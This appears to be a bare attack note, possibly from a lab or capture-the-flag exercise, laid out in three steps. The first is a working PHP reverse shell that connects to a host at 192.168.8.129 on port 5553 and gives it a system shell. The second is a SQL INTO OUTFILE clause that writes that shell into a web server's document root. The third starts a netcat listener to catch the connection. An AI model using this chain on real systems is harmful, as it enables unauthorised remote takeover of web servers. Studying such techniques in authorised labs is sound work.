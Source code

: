 # 1
```php
<?php $sock=fsockopen("192.168.8.129",5553);if($sock){$descriptorspec=array(0=>$sock,1=>$sock,2=>$sock);$process=proc_open("sh",$descriptorspec,$pipes);if(is_resource($process)){proc_close($process);}} ?>
```
# 2
```sql
INTO OUTFILE '/var/www/html/reverse_shell.php'
```
# 3
access shell

nc -lvnp 5553